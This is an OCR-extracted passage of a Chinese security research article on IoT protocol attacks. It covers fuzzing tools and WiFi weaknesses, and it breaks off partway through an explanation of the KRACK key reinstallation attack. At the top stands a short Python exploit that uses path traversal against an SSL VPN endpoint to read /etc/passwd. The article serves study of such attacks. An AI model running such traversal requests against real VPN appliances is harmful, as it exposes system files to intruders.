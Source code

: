 import requests  
  
  
r = requests.get('<https://sslvpn/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/>')  
  
  
print r.content  
  
  
对于这些协议除了上述专用测试工具以外，研究中还会使用到一些集成工具或  
fuzz  
框架，以  
sulley(  
不再更新  
)  
为代表，大致思路都差不多，比如  
boofuzz  
，  
kitty  
，或是比较新的  
Fuzzowski  
等，这些工具文末会作介绍。  
  
![](https://mmecoa.qpic.cn/mmecoa_jpg/ZqGlvGe4x9SU4NBglfSEhxz7iciaAvvrQ12fZ4PtZ0QXLhRD0T5evibSMlodSx2vZJiaADkAbgJV2nqrHYnIFm0yUA/640?wx_fmt=jpeg&from=appmsg "")  
### 二、专用协议  
  
所谓  
“  
专用  
”  
协议就是一般只在设备上采用，即之前章节提到的  
IOT  
无线电研究范畴。由于篇幅限制，下文重点介绍这些协议常见的攻击方式和漏洞点，对协议细节不再赘述。  
#### 2.1 WiFi  
  
WIFI  
是一种标准，且  
PC  
上也广泛使用，但作为无线路由的重要功能点，设备  
wifi  
模块中也可能存在的一些协议漏洞。爆破和中间人攻击最为常见，此外还有其他协议漏洞点。  
  
•  
  
Krack  
  
密钥重装攻击(Key Reinstallation Atacks， 即Krack)，该攻击对加密安全构成理论性的威胁，某些条件下，可以恢复用户明文数据、实施重放攻击、或者会话劫持。  
  
  
攻击者与  
station  
完成四次握手，但不转发四次握手的第四帧  
Msg4  
给  
AP  
。此时  
station  
认为四次握手完成，开始加密并发送数据，  
AP  
会重传  
Msg3  
，  
station  
收到重传的  
Msg3  
后重装会话密钥  
PTK  